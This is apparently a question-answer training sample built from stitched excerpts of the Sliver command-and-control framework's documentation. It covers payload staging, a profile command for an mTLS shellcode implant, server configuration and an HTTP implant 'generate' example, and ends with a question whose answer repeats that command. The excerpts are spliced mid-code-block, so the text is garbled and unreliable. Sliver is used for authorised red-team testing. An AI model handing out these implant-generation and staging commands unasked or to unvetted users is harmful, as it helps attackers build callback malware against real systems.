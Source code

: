 Context:**⚠️ Important:** You must have MinGW installed on your Sliver server to get some staged (e.g., Windows DLLs) payloads to work.  
## Overview  
As payloads can be pretty big (around 10MB), you may sometime require the use of stagers to execute your implant on a target system.  
Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:  
- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory  
For this to work, we need the following pieces:  
- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)  
## Example  
Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `profiles new` command.
The following command creates a new profile that we will use for our staging listener:  
```
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode

[*] Saved new profile win-shellcode

sliver > profiles

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   enabled
### General Server Configuration  
Starting in version 1.0.0 the Sliver server has a configuration file located the `configs` sub-directory of the [`SLIVER_ROOT_DIR`](/docs?name=Environment+Variables), by default this will be `~/.sliver/configs/server.json`. If no configuration file exists, a default configuration will be generated and written to disk on startup. The default configuration is shown below:  
#### Default Server Config  
```json
{
"daemon_mode": false,
"daemon": {
"host": "",
"port": 31337
},
"logs": {
"level": 4,
"grpc_unary_payloads": false,
"grpc_stream_payloads": false
}
}
Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details).  
## Generate the Implant  
Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:  
#### Basic Example  
```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
Although the `sliver-client` is the default way to interact with a `sliver-server` and with implant sessions, there might be a time where you would want to automate some tasks upon reception of certain events.  
To do so, one case use [sliver-script](https://github.com/moloch--/sliver-script), [sliver-py](https://github.com/moloch--/sliver-py) or write a custom client in another language. As all the communications between the client and the server are based on gRPC, any language with gRPC support should in theory be used to create a custom client.  
## Writing a Go client  
In this example, we will focus on writing a custom Go client that executes a new system command on every new implant that connects to the sliver server.  
Create a new Go project somewhere on your file system:  
```
mkdir sliver-custom-client
cd sliver-custom-client
touch main.go
go mod init github.com/<your-username>/<your-project-name>
go get github.com/bishopfox/sliver

 Question: Provide a complete example of using the generate command in Sliver to create a payload. The example should include common parameters and the expected output. Respond with just a few command line. 
```
 Your response: 
```
sliver > generate --http example.com --os mac
[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```
